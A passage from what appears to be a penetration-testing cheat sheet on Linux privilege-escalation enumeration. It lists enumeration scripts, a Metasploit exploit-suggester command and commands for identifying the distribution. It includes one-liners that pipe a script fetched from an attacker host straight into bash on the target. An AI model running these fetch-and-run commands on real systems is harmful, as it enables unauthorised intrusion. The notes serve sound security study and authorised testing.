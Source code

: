# Linux

### System Information

#### Automated Enumeration tool

- [LinEnum](https://github.com/rebootuser/LinEnum)
- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
- [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

```bash
# 1. LSE
wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh
# Show interesting results.
./lse.sh -l1


./LinEnum.sh
```

It is also possible to invoke those script without writing them on the host with either curl or wget.

```bash
curl IP:PORT/scrip.sh | bash
wget -O - IP:PORT/scrip.sh | bash
```

There is a Metasploit module that can be used to determine potential exploit on the target server.

```bash
msf > use post/multi/recon/local_exploit_suggestor
```

*Note that I didn't include "unix-privesc-check" has it has not been updated since 3 years*

#### Distribution

Commands, file structure may depends on which distribution we are. It will be helpfull to know on which distribution when we start enumerate on the system.

```bash
cat /etc/issue # Text file which contains a message or system identification to be printed before the login prompt.
cat /etc/*-release
cat /etc/lsb-release # Contain the LSB_VERSION field.
# The value of the field should be a colon separated list of supported module
# versions indicating the LSB specification modules to which the installation is compliant.

cat /etc/redhat-release
lsb_release -all # Prints certain LSB (Linux Standard Base) and Distribution information
```

#### Kernel
